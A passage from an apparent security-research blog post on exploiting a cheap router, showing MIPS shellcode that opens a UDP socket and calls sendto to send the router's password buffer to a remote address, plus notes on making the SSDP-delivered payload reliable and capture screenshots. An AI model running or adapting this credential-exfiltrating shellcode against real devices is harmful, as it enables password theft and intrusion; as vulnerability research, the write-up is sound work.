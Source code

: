 ```
-mipsasm
addiu $a0, $zero, 2 
addiu $a1, $zero, 2 
jalr $s3            /* socket(2, 2, 0) - s3 contains address of socket()*/
move $a2, $zero 
```

- Move all of the arguments to the correct registers, and call **sendto**:

```
-mipsasm
move $a0, $v0       /* v0 contains sockfd_address */
move $a1, $s2       /* s2 contains pwd buffer address */
move $a2, $s0       /* s0 contains pwd length */
move $a3, $zero 
move $t0, $s1       /* s1 contains the address of sockaddr */
lui $v0, 0x8012 
or $v0, $v0, 0x8bc4 
jalr $v0            /* sendto(sockfd_addr (0x802ab9b0), pwd_buffer (0x801d3754), len, 0, sockaddr_addr (0x802ab980), 0x20); */
addiu $t1, $zero, 0x20 
```

- Finally, jump to the address of the fix shellcode to load the expected register values and adjust the stack pointer:

```
-mipsasm
j 0x802C3638    /* fix address */
xor $v0, $s3, $s3 
```

As you can see, it is much easier to follow than the ROP chain in part 3!

### Does it work?

After sending the huge amount of SSDP requests to write the shellcode, decode it, and then run it, it works! I did initially have some issues with random crashes, but this was fixed by adding delays between the packets being sent, and also attempting to write each memory address twice. This was probably due to the caches being annoying as per usual.

Here are some of the packets that are seen when sending the payload in wireshark, you can see the password-containing packet be sent from the router at the end:

![packets.png](/assets/images/analysing_a_dirt_cheap_router_part_4/packets.png)

And here are the contents of the UDP packet containing the password:

![packet_contents.png](/assets/images/analysing_a_dirt_cheap_router_part_4/packet_contents.png)
